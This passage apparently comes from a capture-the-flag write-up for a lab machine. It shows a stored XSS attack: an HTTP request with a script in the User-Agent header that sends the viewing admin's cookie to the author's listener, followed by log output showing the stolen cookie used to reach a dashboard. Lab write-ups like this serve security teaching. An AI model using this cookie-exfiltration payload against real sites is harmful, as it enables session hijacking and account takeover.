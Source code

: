 I started a web server on my machine and a few seconds after my request I got a request from the server.

```bash
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.243.69 - - [09/Jun/2024 09:55:36] code 404, message File not found
10.129.243.69 - - [09/Jun/2024 09:55:36] "GET /agent HTTP/1.1" 404 -
```

It was vulnerable to XSS and something on the server was looking at the reports. I tried sending my server the cookies of the user looking at the reports.

```http
POST /support HTTP/1.1
Host: target.htb:5000
User-Agent: <script>new Image().src="http://10.10.14.121/cookie?c="+document.cookie;</script>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 106
Origin: http://target.htb:5000
Connection: keep-alive
Referer: http://target.htb:5000/support
Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
Upgrade-Insecure-Requests: 1

fname=first&lname=last&email=test%40test.com&phone=phone&message=<img src="http://10.10.14.121/message" />
```

I waited, and got the admin cookie.

```bash
10.129.243.69 - - [09/Jun/2024 09:58:48] code 404, message File not found
10.129.243.69 - - [09/Jun/2024 09:58:48] "GET /cookie?c=is_admin=REDACTED HTTP/1.1" 404 -
```

I changed my cookie value in the browser and tried accessing the dashboard again.

![Dashboard](/assets/images/2024/06/Headless/Dashboard.png "Dashboard")
